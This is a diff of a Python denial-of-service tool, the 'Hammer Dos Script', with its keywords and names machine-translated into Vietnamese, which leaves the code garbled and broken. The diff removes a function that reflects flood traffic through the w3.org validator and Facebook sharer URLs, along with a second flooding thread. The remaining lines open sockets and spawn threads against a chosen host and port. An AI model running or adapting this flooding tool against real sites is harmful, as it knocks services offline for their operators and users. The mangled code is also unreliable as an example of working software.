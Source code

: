 # c-y-c-t-i-cao@@ -23,14 +23,6 @@ def user_agent ():
	trở lại ( uagent )


def  my_bots ():
	 bot toàn cầu
	bot = []
	bot . append ( "http://validator.w3.org/check?uri=" )
	bot . append ( "http://www.facebook.com/sharer/sharer.php?u=" )
	trở lại ( bot )


def  bot_hamising ( url ):
	thử :
		trong khi  Đúng :
@@ -67,13 +59,6 @@ def dos ():
		q . task_done ()


def  dos2 ():
	trong khi  Đúng :
		item = w . get ()
		bot_hamoing ( ngẫu nhiên . lựa chọn ( bot ) + "http: //" + máy chủ )
		w . task_done ()


 cách sử dụng def ():
	print ( '' ' \ 033 [92m Hammer Dos Script v.1 http://www.canyalcin.com/
	Người dùng cuối có trách nhiệm tuân theo tất cả các luật hiện hành.
@@ -131,8 +116,8 @@ def get_parameters ():
	get_parameters ()
	print ( " \ 033 [92m" , máy chủ lưu trữ , "cổng:" , str ( cổng ), "turbo:" , str ( thr ), " \ 033 [0m" )
	print ( " \ 033 [94m. Vui lòng đợi ... \ 033 [0m" )

	user_agent ()
	my_bots ()
	thời gian . ngủ ( 5 )
	thử :
		s  =  ổ cắm . ổ cắm ( ổ cắm . AF_INET , ổ cắm . SOCK_STREAM )
@@ -146,9 +131,6 @@ def get_parameters ():
			t  =  luồng . Chủ đề ( target = dos )
			t . daemon  =  True   # nếu luồng tồn tại, nó sẽ chết
			t . start ()
			t2  =  luồng . Chủ đề ( target = dos2 )
			t2 . daemon  =  True   # nếu luồng tồn tại, nó sẽ chết
			t2 . start ()
		bắt đầu  =  thời gian . thời gian ()
		#tasking
		item  =  0
